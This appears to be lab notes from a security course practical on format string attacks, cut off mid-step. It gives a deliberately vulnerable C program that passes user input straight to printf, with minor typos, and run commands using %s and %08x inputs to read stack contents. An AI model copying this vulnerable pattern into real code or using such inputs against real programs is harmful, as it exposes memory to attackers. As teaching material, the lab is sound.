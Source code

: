 # EHD Practical 15 - Format String Attack

###### tags: #EHD 

## Table of Contents
```toc
```

## Looking at Stack Contents Through Format String Attacks
**On Win10 VM**
1. Create the following C program called `formatstr.c`
```c
#include <stdio.h>
int main(int argc, char *argv[]) {
	printf(argv[1])
	return 0;
}
```

2. Compile the program
```
gcc -o formatstr1 formatstr1.c
```

3. Run the program with the argument `hello`
```
./formatstr1 hello
```

4. Run the program with the argument `hello%s`
```
./formatstr1 hello%s
```

5. Run the program with the argument `hello%08x`
```
./formatstr1 hello%08x
```

6. The data that appears after the string `hello` comes from the top of the stack
7. To see more of the stack, run the program with more format parameters
```
./formatstr1 %08x.%08x.%08x.%08x
```

8. To see even more content from the stack, 